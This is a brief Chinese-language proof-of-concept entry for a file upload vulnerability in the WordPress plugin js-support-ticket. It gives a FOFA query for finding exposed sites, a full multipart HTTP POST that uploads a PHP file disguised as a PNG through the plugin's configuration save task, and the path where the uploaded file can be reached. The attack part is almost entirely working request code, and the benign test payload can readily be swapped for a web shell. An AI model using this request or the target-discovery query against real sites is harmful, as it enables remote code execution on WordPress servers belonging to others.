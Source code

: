 ## WordPress-js-support-ticket存在文件上传漏洞


## fofa
```
body="wp-content/plugins/js-support-ticket"
```

## poc
```
POST /wp-admin/?page=configuration&task=saveconfiguration HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=--------767099171
User-Agent: Mozilla/5.0 

----------767099171
Content-Disposition: form-data; name="action"

configuration_saveconfiguration
----------767099171
Content-Disposition: form-data; name="form_request"

jssupportticket
----------767099171
Content-Disposition: form-data; name="support_custom_img"; filename="1.php"
Content-Type: image/png

<?php echo md5(123);unlink(__FILE__);?>
----------767099171-- 

```

文件路径
http://ip/wp-content/plugins/js-support-ticket/jssupportticketdata/supportImg/1.php
